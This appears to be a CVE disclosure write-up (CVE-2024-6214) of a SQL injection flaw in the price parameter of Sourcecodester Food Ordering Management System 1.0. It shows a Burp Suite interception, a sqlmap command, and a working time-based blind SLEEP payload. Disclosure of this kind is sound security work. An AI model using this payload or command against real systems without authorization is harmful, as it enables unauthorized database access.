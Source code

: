 # SQL Injection vulnerability was discovered from Sourcecodester Food Ordering Management System 1.0 (add-item)
## CVE-2024-6214

Affected Project: Sourcecodester Food Ordering Management System 1.0

Official Website: https://www.sourcecodester.com/php/15689/food-ordering-management-system-php-and-mysql-free-source-code.html

Version: 1.0

Related Code file: /router/add-item.php

Injection parameter: price


## Vulnerability Analysis

1. Lack of Input Validation and Sanitization:
The price and name fields are directly used in the SQL query without any sanitization or validation. This allows an attacker to manipulate the SQL query by injecting malicious SQL code.

2. Use of Plain SQL Queries:
The script likely uses plain SQL queries to interact with the database. Without prepared statements, this approach is highly vulnerable to SQL injection.

## Demonstraation

Below is the admin-page.php. By clicking on **Add**, we can access add-item.php.

`http://172.16.76.1/foms/admin-page.php`

![image](https://github.com/jadu101/CVE/assets/76433661/607b0700-4d8f-4861-a3bc-1f43574e3f25)

We will first intercept the add-item traffic using Burp Suite:

![image-1](https://github.com/jadu101/CVE/assets/76433661/2f15e133-4b3c-4361-9b13-a5558c746485)

Save the intercepted add-item request to a .txt file and execute sqlmap towards it. 

parameter price is vulnerable to time-based blind sql injection

Below commands verifies the vulnerability:

`sqlmap -r foms-add-item.txt --batch`

![image-2](https://github.com/jadu101/CVE/assets/76433661/2d2940ac-b925-4994-9bb9-89a897dc9c05)

```
---
Parameter: price (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: name=asdafsd&price=123 AND (SELECT 1175 FROM (SELECT(SLEEP(5)))jrgF)&action=
---
```
